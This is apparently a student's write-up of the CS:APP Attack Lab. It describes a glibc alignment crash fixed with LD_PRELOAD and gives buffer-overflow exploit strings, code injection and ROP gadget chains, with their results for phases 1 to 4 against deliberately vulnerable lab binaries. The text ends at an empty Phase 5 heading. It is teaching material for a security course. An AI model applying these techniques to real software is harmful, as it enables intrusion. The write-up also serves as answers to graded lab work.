




# Attack Lab
## Table of contents
- [Introduction](#introduction)
- [Duration](#duration)
- [`ctarget` segmentation fault bug on Ubuntu 22.04](#ctarget-segmentation-fault-bug-on-ubuntu-2204)

- [Solution](#solution)
    - [Phase 1](#phase-1)
    - [Phase 2](#phase-2)
    - [Phase 3](#phase-3)
    - [Phase 4](#phase-4)
    - [Phase 5](#phase-5)

## Introduction
- Note: This is the 64-bit successor to the 32-bit Buffer Lab

- Students are given a pair of unique custom-generated x86-64 binary executables, called **targets**, that have buffer overflow bugs
    - One target is vulnerable to code injection attacks
    
    - The other is vulnerable to return-oriented programming attacks
    
    - Students are asked to modify the behavior of the targets by developing exploits based on either code injection or return-oriented programming
    
- This lab teaches the students about the stack discipline and teaches them about the danger of writing code that is vulnerable to buffer overflow attacks

- If you're a self-study student, here are a pair of Ubuntu 12.4 targets that you can try out for yourself
    - You'll need to run your targets using the `-q` option so that they don't try to contact a non-existent grading server
    
    - If you're an instructor with a CS:APP acount, you can download the solutions here

## Duration
- 2025/2/19 - Due: 2025/2/28

## `ctarget` segmentation fault bug on Ubuntu 22.04
- No matter what strings you input or whether or not you input string, the `ctarget` will always cause segmentation fault

    ```
    (gdb) run -q
    Starting program: /home/yuchuan/projects/computer_systems_a_programmer_perspective/labs/attack_lab/target1/ctarget -q
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    Cookie: 0x59b997fa

    Program received signal SIGSEGV, Segmentation fault.
    0x00007ffff7dff0d0 in __vfprintf_internal (s=0x7ffff7fa5780 <_IO_2_1_stdout_>, format=0x4032b4 "Type string:", ap=ap@entry=0x5561dbd8, mode_flags=mode_flags@entry=2) at ./stdio-common/vfprintf-internal.c:1244
    1244    ./stdio-common/vfprintf-internal.c: No such file or directory.

    (gdb) backtrace
    #0  0x00007ffff7dff0d0 in __vfprintf_internal (s=0x7ffff7fa5780 <_IO_2_1_stdout_>, format=0x4032b4 "Type string:", ap=ap@entry=0x5561dbd8, 
        mode_flags=mode_flags@entry=2) at ./stdio-common/vfprintf-internal.c:1244
    #1  0x00007ffff7ebec4b in ___printf_chk (flag=flag@entry=1, format=format@entry=0x4032b4 "Type string:") at ./debug/printf_chk.c:33
    #2  0x0000000000401f10 in printf (__fmt=0x4032b4 "Type string:") at /usr/include/x86_64-linux-gnu/bits/stdio2.h:105
    #3  launch (offset=<optimized out>) at support.c:293
    #4  0x0000000000401ffa in stable_launch (offset=<optimized out>) at support.c:340
    Backtrace stopped: Cannot access memory at address 0x55686000
    ```

- Based on [Rijuyuezhu's blog](https://blog.rijuyuezhu.top/posts/db646f34/), it is due to an instruction in `__vfprintf_internal` of `glibc`, namely `movaps %xmm1, 0x10(%rsp)`
    - This instruction needs its memory operand `0x10(%rsp)` corresponding an address divisible by 16
    
    - I guess that due to the compiling of `ctarget` is on a old convention, where the size of function frame is not strictly required to be a multiple of 16
    
    - I tried to manually modify the low bits of `%rsp` through `gdb`, and it eliminates the `SIGSEGV`, confirming my guessing

- Get self-made `printf.so`
    - First of all, we can find a naive `printf` implementation (For me, I use the programming homework in NJU PA)
    
    - Then we can compile it to be a shared library(suppose the source file is named `printf.c`):

        ```
        gcc -shared -fPIC -o printf.so printf.c
        ```

    - Notice that we shall provide interface `__printf_chk` and `__sprintf_chk`

- Use the `LD_PRELOAD` to substitute the default `glibc` shared library
    - Put `printf.so` in the same directory of `ctarget`, then use command

        ```
        LD_PRELOAD=./printf.so ./ctarget -q
        ```

    - And it works! 

- **What is the relation between the self-made `printf.so` and `movaps` instruction?**
    - Does self-made `printf.so` ensure the stack frame address satisfy a 16-byte alignment?

- Although `rtarget` doesn't cause the segmentation fault when fed the short string, it will product the same error when fed the string causing `touch2` misfire 
    - Substituting `glibc` with `printf.so` will fix it

        ```
        ./rtarget -q -i phase_4/misfire_exploit_raw.txt

        Cookie: 0x59b997fa
        Ouch!: You caused a segmentation fault!
        Better luck next time
        ```

        ```
        LD_PRELOAD=./printf.so ./rtarget -q -i phase_4/misfire_exploit_raw.txt 

        Cookie: 0x59b997fa
        Misfire: You called touch2(0x01d692a0)
        FAIL: Would have posted the following:

        ```

- How to use `gdb` with `LD_PRELOAD`

    ```
    gdb your_program

    (gdb) set environment LD_PRELOAD ./printf.so
    (gdb) start
    ```

## Solution
- Disassemble `ctarget`, `rtarget` and store them in the file [`ctarget_disassemble`](./target1/disassemble/ctarget/ctarget_disassemble) and [`rtarget_disassemble`](./target1/disassemble/rtarget/rtarget_disassemble) respectively

    ```
    objdump -d ctarget > disassemble/ctarget/ctarget_disassemble

    objdump -d rtarget > disassemble/rtarget/rtarget_disassemble
    ```

### Phase 1
- `getbuf`
    - The stack frame

        

- We need to fill 0x28 (40) bytes of `getbuf` stack frame and then overwrite the return address to `touch1` first instruction address

- The phase 1 exploit string is

    ```
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 /* 40 bytes to fill the stack frame of getbuf */
    c0 17 40 00 00 00 00 00 /* touch1 first instruction address */
    ```

- Generate [exploit raw string](./target1/phase_1_exploit_rax.txt)

    ```
    ./hex2raw < phase_1_exploit.txt > phase_1_exploit_rax.txt
    ```

- The result is

    ```
    LD_PRELOAD=./printf.so ./ctarget -q -i phase_1/phase_1_exploit_raw.txt 

    Cookie: 0x59b997fa
    Touch1!: You called touch1()
    Valid solution for level 1 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
    ```

### Phase 2
- The stack frame is as follows

    

- We can't insert the exploit code into `getbuf` stack frame, because when `ret` is executed, the stack frame has been released by increasing the value of `%rsp`

- Therefore, we insert the exploit code which contains `mov` and `ret` instructions at the address of the return address in `launch` stack frame
    - `rsp` is `0x5561dc78`

        ```
        (gdb) print /x $rsp
        $1 = 0x5561dc78
        ```

    - The address is `%rsp + 0x28 + 0x8 +0x8 = 0x5561dcb0`

        ```
        (gdb) x/gx 0x5561dcb0
        0x5561dcb0:     0x0000000000401f24
        ```

- The exploit code is to move cookie value to register `%rdi` which is shown in [mov_rdi.s](./target1/phase_2/mov_rdi.s) and `ret` instruction

    ```
    gcc -c mov_rdi.s
    objdump -d mov_rdi.o > mov_rdi.d
    ```

- We insert the `touch2` function first instruction address to the stack frame in `test` function

- After the `getbuf` executes `ret` instruction, the code transfers the control to the exploit code, executes `mov` and `ret` instructions, and transfers the control to `touch2`

- The phase 2 exploit string is

    ```
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 /* 40 bytes to fill the stack frame of getbuf */
    b0 dc 61 55 00 00 00 00 /* position of return address of launch function */
    ec 17 40 00 00 00 00 00 /* touch2 first instruction address */
    bf fa 97 b9 59 c3 00 00 /* mov $0x59b997fa,%edi  ret */
    ```

- The result is 

    ```
    LD_PRELOAD=./printf.so ./ctarget -q -i phase_2/phase_2_exploit_raw.txt 

    Cookie: 0x59b997fa
    Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 B0 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00 BF FA 97 B9 59 C3 00 00 
    ```

### Phase 3
- The stack frame

    

- The overall structure is similar to phase 2 except that
    - We store the cookie string at `0x5561dcb8`

    - The exploit code is to move the cooke string address to register `%rdi`

- The cookie string `59b997fa`

    ```
    35 39 62 39 39 37 66 61 00
    ```

- The phase 3 exploit string is 

    ```
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 /* 40 bytes to fill the stack frame of getbuf */
    b0 dc 61 55 00 00 00 00 /* position of return address of launch function */
    fa 18 40 00 00 00 00 00 /* touch3 first instruction address */
    48 c7 c7 b8 dc 61 55 c3 /* movq $0x5561dcb8, %rdi  ret */ 
    35 39 62 39 39 37 66 61
    00 00 00 00 00 00 00 00 /* cookie string */
    ```

- The result is 

    ```
    LD_PRELOAD=./printf.so ./ctarget -q -i phase_3/phase_3_exploit_raw.txt

    Cookie: 0x59b997fa
    Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 B0 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00 48 C7 C7 B8 DC 61 55 C3 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 
    ```

### Phase 4
- `rtarget` employs randomization so that the stack positions differ from one run to another
    - We set breakpoints at `0x4017af` right before `Gets` function called

        ```
        (gdb) break *0x4017af
        Breakpoint 1 at 0x4017af: file buf.c, line 14.
        ```

    - We check `%rsp` value of two runs, they are different to prove randomization usage

        ```
        (gdb) print /x $rsp
        $1 = 0x7ffffffe9b60
        ```

        ```
        (gdb) print /x $rsp
        $2 = 0x7ffffffd5b70
        ```

- We use return-oriented programming
    - Ideally, we need the below instruction 

        ```
        popq %rdi
        ```

    - However, the gadget farm only has `popq %rax` instruction (`58`) followed by `nop` instruction

        ```
        00000000004019a7 <addval_219>:
        4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
        4019ad:	c3                   	ret    
        ```

        ```

        00000000004019ca <getval_280>:
        4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
        4019cf:	c3                   	ret    
        ```
        - So we have gadget 1: `popq %rax`, one of addresses: `0x4019ab`

    - Next, we need the gadget 2 `movq %rax, %rdi` (`48 89 c7`), one of addresses: `0x4019a2`

        ```
        00000000004019a0 <addval_273>:
        4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
        4019a6:	c3                   	ret    
        ```

        ```
        00000000004019c3 <setval_426>:
        4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
        4019c9:	c3                   	ret    
        ```

- Based on the gadgets, we devise the ROP plan

    

- The phase 4 exploit string is 

    ```
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 /* 40 bytes to fill the stack frame of getbuf */
    ab 19 40 00 00 00 00 00 /* gadget 1 address */
    fa 97 b9 59 00 00 00 00 /* cookie value */
    a2 19 40 00 00 00 00 00 /* gadget 2 address */
    ec 17 40 00 00 00 00 00 /* touch2 address */
    ```

- The result is

    ```
    LD_PRELOAD=./printf.so ./rtarget -q -i phase_4/phase_4_exploit_raw.txt 

    Cookie: 0x59b997fa
    Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target rtarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
    ```
### Phase 5